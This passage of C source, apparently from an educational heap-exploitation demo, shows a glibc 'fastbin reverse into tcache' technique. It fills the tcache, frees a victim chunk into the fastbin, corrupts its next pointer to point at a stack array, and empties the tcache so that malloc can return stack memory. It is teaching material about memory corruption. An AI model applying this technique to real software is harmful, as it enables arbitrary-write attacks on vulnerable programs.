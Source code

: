 ```c

  // Fill the tcache.
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];
  printf(
    "The next pointer that we free is the chunk that we're going to corrupt: %p\n"
    "It doesn't matter if we corrupt it now or later. Because the tcache is\n"
    "already full, it will go in the fastbin.\n\n",
    victim
  );
  free(victim);

  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  printf(
    "The stack address that we intend to target: %p\n"
    "It's current value is %p\n",
    &stack_var[2],
    (char*)stack_var[2]
  );

  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------

  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
```
